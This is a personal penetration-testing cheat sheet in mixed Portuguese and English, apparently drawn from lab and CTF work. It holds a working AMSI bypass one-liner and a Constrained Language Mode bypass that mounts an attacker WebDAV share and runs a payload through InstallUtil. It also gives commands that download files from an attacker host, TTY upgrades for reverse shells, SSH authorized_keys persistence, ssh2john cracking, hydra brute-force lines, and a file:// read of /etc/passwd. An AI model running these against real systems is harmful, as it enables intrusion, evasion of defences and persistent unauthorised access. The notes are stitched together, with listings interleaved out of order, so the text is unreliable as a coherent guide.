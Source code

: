 ### RDP

For windows with share and 85% screen

```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```


Para habilitar o acesso RDP:

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f
```

Para desabilitar o acesso RDP:

shell

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 1 /f
```





### Linux

binaries Path

```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

###  Interactive Shell

Arrumando interactive TTY using Python

```shell
# Enter while in reverse shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo; fg


# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```




### File Transfer

#### HTTP

The most common le transfer method.

```shell
# In Kali
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```


### Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


## Chave privada cracking

Seguindo a metodologia de cracking, nosso próximo passo é transformar o chave privada em formato hash para nossas ferramentas de cracking. Usaremos o **ssh2john** script de transformação do conjunto JtR e salve o hash resultante para **ssh.hash**.

```shell
kali@kali:~/passwordattacks$ ssh2john id_rsa > ssh.hash

kali@kali:~/passwordattacks$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
```


##### WEBDAV

```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

## AMSI bypass

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf =  @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## CLM

Para bypassar o CLM, usei o seguinte methodo: https://github.com/calebstewart/bypass-clm

Primeiro subi o webdav para hostear o payload:
- https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe

```sh
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

Depois montei o webdav no alvo:

```shell
net use Z: http://192.168.45.151
```

Copiei o payload para a pasta tasks:

```shell
copy Z:\PsBypassCLM.exe C:\Windows\Tasks\bypass-clm.exe
```

Rodei o bypass:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\Windows\Tasks\bypass-clm.exe"
```

Consegui bypassar o CLM

```powershell
PS C:\windows\tasks> $ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode
FullLanguage
```

## MSSQL Client

- https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py

## SSH-KEYGEN

Vamos dar uma olhada na máquina linuxvictim no laboratório. Se obtivermos acesso como usuário _linuxvictim_ ou _root_ , podemos adicionar uma chave pública SSH ao arquivoauthorized_keys do _linuxvictim_ para manter o acesso. Para fazer isso, primeiro precisaremos criar um par de chaves SSH em nossa Kali VM.

Podemos configurar um par de chaves SSH em nossa VM Kali com ssh-keygen .

```
kali@kali:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa.
Your public key has been saved in /home/kali/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:VTLfYd2shCqYOTkpZqeHRrqxnKjyVViNgbmVMpKyEug root@kali
The key's randomart image is:
+---[RSA 2048]----+
|.  . o..  o ..oo.|
|+ o = o+   =.o..+|
|.+ . =o*. ...... |
|oE  *oX ...   .  |
|.  =.=.oS.       |
|  o +..          |
| o *..           |
|o =.             |
|+..              |
+----[SHA256]-----+
```

> Listagem 11 – Gerando um par de chaves SSH

Se aceitarmos os valores padrão para o caminho do arquivo, um par de arquivos será criado em nosso diretório ~/.ssh/ . Obteremos id_rsa para a chave privada e id_rsa.pub para a chave pública. Podemos então capturar o conteúdo de id_rsa.pub e copiá-lo para a área de transferência.

Na máquina linuxvictim, podemos inserir a chave pública no arquivoauthorized_keys do usuário _linuxvictim_ com o seguinte comando.

```
linuxvictim@linuxvictim:~$ echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8= kali@kali" >> /home/linuxvictim/.ssh/authorized_keys
```


```
hydra -l marujo -P /usr/share/wordlists/rockyou.txt -t 3 -f 192.168.90.43 http-post-form "/?action=login:username=^USER^&password=^PASS^:Usuário ou senha inválido\!"

hydra -l admin -P /usr/share/wordlists/rockyou.txt -o saida.txt 192.168.90.84 http-get /webdav

gobuster dir -u http://192.168.90.77/cmd/ -w /usr/share/wordlists/dirb/big.txt -o gobuster90-77.txt
```

```
Através desse "get_picture=" conseguimos exibir arquivos da máquina usando:

file:///
Então a URL ficou assim:

http://192.168.90.43/?get_picture=file:///arquivo
Pegamos o passwd com:

http://192.168.90.43/?get_picture=file:///etc/passwd
retorno:
```






> Listagem 12 – Inserindo a chave pública

Podemos então fazer ssh de nossa VM Kali usando nossa chave privada para a máquina _linuxvictim_ e fazer login como usuário _linuxvictim_ sem uma senha. Se não especificarmos uma chave privada SSH para usar, o cliente SSH usará aquela em ~/.ssh/id_rsa .

```
kali@kali:~$ ssh linuxvictim@linuxvictim
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...
linuxvictim@linuxvictim:~$ 
```




CGI-BINS
Testei o cgi-bin sem sucesso:
(https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)
```
┌──(root💀naboo)-[/home/legunner/CTF/ctf90-84]
└─# python3 shellshocker.py https://192.168.90.84/cgi-bin/admin.cgi
```
